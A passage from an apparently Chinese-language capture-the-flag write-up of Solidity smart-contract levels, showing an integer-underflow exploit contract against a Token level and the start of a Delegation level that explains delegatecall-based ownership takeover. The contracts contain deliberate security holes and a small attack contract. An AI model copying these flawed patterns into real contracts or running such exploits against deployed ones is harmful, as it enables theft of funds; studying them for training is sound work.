 ```javascript
    function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint balance) {
        return balances[_owner];
    }
}

contract attack{
    address Tokens = 0x0c65c7ec30d5d856958707fc8b958302ae689b49;
    Token target = Token(Tokens);
    function hit() public {
        target.transfer(msg.sender,21);
    }

}
```
---

#### 6. Delegation  

> **Target**: 将owner变为自己  

&emsp;&emsp;这道题主要考察的是delegatecall()相关的知识，**delegatecall()** 与 **call()** 的区别是两者的上下文不同，delegatecall()的上下文是调用方，而call()函数的上下文则是实例本身。

![delegatecall()](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/eth_writeUp0.png?raw=true)  

&emsp;&emsp;我们来看一下合约代码：

```javascript
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
```
